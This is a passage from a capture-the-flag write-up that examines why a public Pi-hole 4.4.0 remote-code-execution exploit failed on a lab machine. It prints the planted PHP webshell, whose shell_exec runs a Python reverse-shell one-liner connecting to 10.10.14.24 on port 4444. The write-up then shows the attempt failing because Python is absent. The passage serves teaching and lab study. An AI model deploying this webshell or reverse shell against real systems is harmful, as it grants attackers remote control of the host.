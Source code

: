 ## Beyond Root

When I tried to run the various one of the exploit script from `searchsploit`,
“Pi-hole 4.4.0 - Remote Code Execution (Authenticated)”, it didn’t work on
Unbalanced. I wanted to take a quick look at why. I commented out the steps to
clean up at the end, and ran it. With my shell as www-data, I then went to
look at the directory where the webshell should be written. The script was
there, and it looked like it should work:

    
    
    www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ cat aznjimvv.php 
    <?php
        shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.24\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")
        ?>
    

If I remembered from trying to shell upgrade, I’d see the problem. If not, I
could see it by running the script:

    
    
    www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ php aznjimvv.php 
    sh: 1: python3: not found
    

Python3 isn’t installed. Neither is Python. So the PHP webshell works, but the
Python reverse shell one liner that it tries to `shell_exec` fails.

[](/2020/12/05/htb-unbalanced.html)

